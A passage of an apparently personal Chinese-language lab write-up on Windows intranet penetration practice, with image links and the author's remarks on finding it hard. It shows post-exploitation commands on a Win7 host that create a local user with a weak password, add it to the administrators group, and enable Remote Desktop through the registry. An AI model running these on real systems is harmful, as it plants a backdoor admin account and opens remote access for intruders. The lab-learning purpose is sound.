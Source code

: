 
然后后面的操作就完全不会了 

什么添加自定义user到管理员组 然后尝试远程登陆(3389端口)

不行就msf打...


好难啊 Windows内网感觉比Linux复杂的多 🤣 慢慢来吧~

rm发现fscan扫不起因为![img](Vuln_2瞎打版/images/image-7.png) ...

难！


先在win7本地创建我们自己的用户(密码要大小写+数字)
然后将这个用户加入管理员组

```
net user uuuqqq Aa12345 /add 
net localgroup administrators uuuqqq /add
```

![img](Vuln_2瞎打版/images/image-8.png)

尝试打开3389端口远程连接
`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`
